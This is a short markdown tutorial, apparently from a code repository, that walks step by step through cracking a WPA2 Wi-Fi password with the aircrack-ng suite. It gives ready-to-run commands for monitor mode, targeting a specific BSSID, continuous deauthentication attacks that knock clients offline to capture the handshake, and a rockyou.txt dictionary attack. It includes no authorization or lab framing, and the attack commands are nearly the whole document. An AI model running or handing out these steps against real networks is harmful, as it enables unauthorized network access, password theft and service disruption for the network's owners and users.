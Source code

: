 # Cracking Wifi WPA2 Handshake:
First stop the current netwok processes
```bash
airmon-ng check kill
```
Then change the managed mode to monitor mode.
```bash
airmon-ng start wlan0
```
then have to discover the wifi networks. For that exxcute
```bash
airodump-ng wlan0
```
After finding the target wifi, execute ["F0:B4:D2:62:54:BF" is the mac/bssid of the wifi] to see the connected clients to that wifi.
```bash
airodump-ng wlan0 -d F0:B4:D2:62:54:BF
```
Now execute to store the impormation to crack. "-w hack1" is to tell to store the information to that file. "F0:B4:D2:62:54:BF" is the wifi mac/bssid address.
```bash
airodump-ng -w hack1 -c 1 --bssid F0:B4:D2:62:54:BF wlan0
```
Open a second terminal to deauthenticate a client to fetch the handshake. "F0:B4:D2:62:54:BF" is the bssid of the client.
```bash
aireplay-ng --deauth 0 -a F0:B4:D2:62:54:BF wlan0
```
After capturing the handshake, close the processes. Then use the below command.
```bash
wireshark hack1-01.cap
```
It will open the file in wireshark. Search "eapol" in search field of wireshark. There will be 4 "eapol" procol which are used for the handshake. Now stop the monitor mode of the interface.
```bash
airmon-ng stop wlan0
```
Then execute below code to crack the password of the wifi.
```bash
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
If the password is in this file, then you will get the password like "KEY FOUND! [wifi_password]"